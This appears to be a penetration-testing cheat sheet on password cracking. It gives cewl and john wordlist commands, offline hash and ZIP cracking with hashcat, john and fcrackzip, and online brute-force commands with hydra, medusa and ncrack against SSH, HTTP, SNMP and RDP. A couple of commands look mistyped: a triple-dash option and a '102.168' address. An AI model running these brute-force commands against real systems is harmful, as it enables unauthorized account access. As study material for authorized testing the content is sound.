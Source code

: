 # Generate custom wordlist

## Cewl - Spider and build dictionary
```
cewl -w createWordlist.txt https://www.example.com
```

## Cewl - Add minimum password length
```
cewl -w createWordlist.txt -m 6 https://www.example.com
```

## Improve the custom wordlist
```
john ---wordlist=wordlist.txt --rules --stdout > wordlist-modified.txt
```

# Offline password cracking

## Identify hash

In kali we can use `hash-identifier` or `hashid`

## Cracking the hash

**OFFLINE**
```
hashcat --help
john --wordlist=wordlist.txt dump.txt
```

**ONLINE**
* `findmyhash LM -h 6c3d4c343f999422aad3b435b51404ee:bcd477bfdb45435a34c6a38403ca4364`
* [Crackstation](https://crackstation.net/)
* [Hashkiller](https://hashkiller.co.uk/)
* Google hashes Search pastebin.

## ZIP

```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt bank-account.zip
```

# Online password cracking

## Port 22 - SSH
```
hydra -l root -P wordlist.txt 192.168.0.101 ssh
```

## Port 80/443 htaccess
```
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

## Port 161 - SNMP
```
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol
```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```

# References

* https://sushant747.gitbooks.io/total-oscp-guide/generate_custom_wordlist.html
* https://sushant747.gitbooks.io/total-oscp-guide/identify_hash_and_crack_it.html

